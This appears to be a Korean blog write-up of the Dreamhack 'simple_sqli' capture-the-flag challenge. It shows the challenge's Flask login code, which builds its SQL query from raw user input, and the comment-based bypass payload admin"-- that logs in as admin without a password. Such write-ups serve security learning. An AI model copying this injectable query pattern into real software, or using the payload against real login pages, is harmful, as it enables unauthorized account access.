 ```yaml
---
title: simple_sqli
author: sally
date: 2024-01-17 23:24:00 +0900
categories: [Dreamhack, Web]
tags: [web, sql injection, level1]
img_path: /assets/img/posts/20240117/
---
```


## 문제
![login](simple_sqli/login.jpg){: .w-75 .shadow .rounded-10 w='1212' h='668' }

## 풀이 방법
**app.py**
```python
#!/usr/bin/python3
from flask import Flask, request, render_template, g
import sqlite3
import os
import binascii

app = Flask(__name__)
app.secret_key = os.urandom(32)

try:
    FLAG = open('./flag.txt', 'r').read()
except:
    FLAG = '[**FLAG**]'

DATABASE = "database.db"
if os.path.exists(DATABASE) == False:
    db = sqlite3.connect(DATABASE)
    db.execute('create table users(userid char(100), userpassword char(100));')
    db.execute(f'insert into users(userid, userpassword) values ("guest", "guest"), ("admin", "{binascii.hexlify(os.urandom(16)).decode("utf8")}");')
    db.commit()
    db.close()

def get_db():
    db = getattr(g, '_database', None)
    if db is None:
        db = g._database = sqlite3.connect(DATABASE)
    db.row_factory = sqlite3.Row
    return db

def query_db(query, one=True):
    cur = get_db().execute(query)
    rv = cur.fetchall()
    cur.close()
    return (rv[0] if rv else None) if one else rv

@app.teardown_appcontext
def close_connection(exception):
    db = getattr(g, '_database', None)
    if db is not None:
        db.close()

@app.route('/')
def index():
    return render_template('index.html')

@app.route('/login', methods=['GET', 'POST'])
def login():
    if request.method == 'GET':
        return render_template('login.html')
    else:
        userid = request.form.get('userid')
        userpassword = request.form.get('userpassword')
        res = query_db(f'select * from users where userid="{userid}" and userpassword="{userpassword}"')
        if res:
            userid = res[0]
            if userid == 'admin':
                return f'hello {userid} flag is {FLAG}'
            return f'<script>alert("hello {userid}");history.go(-1);</script>'
        return '<script>alert("wrong");history.go(-1);</script>'

app.run(host='0.0.0.0', port=8000)
```

문제 파일 코드를 간단히 설명하면 다음과 같다.

1. **sqlite3 db** 사용
2. users table 생성 (userid, userpassword)
3. ("guest", "guest"), ("admin", random value) 를 삽입
4. **admin** 계정으로 로그인하면 **FLAG** 값을 출력

admin으로 로그인하면 플래그를 획득할 수 있다는 것을 알 수 있다.

코드의 로그인 확인 쿼리는 다음과 같다.
```sql
select * from users where userid="{userid}" and userpassword="{userpassword}"
```

[sqlite의 주석](https://www.sqlite.org/lang_comment.html)은 "--"이기 때문에 userid를 `admin"--`으로 입력하면 쿼리문이 다음과 같이 될 것 이다.
```sql
select * from users where userid="admin"--" and userpassword="123"
```

패스워드는 아무거나 입력해도, 성공적으로 플래그를 획득 할 수 있다. 
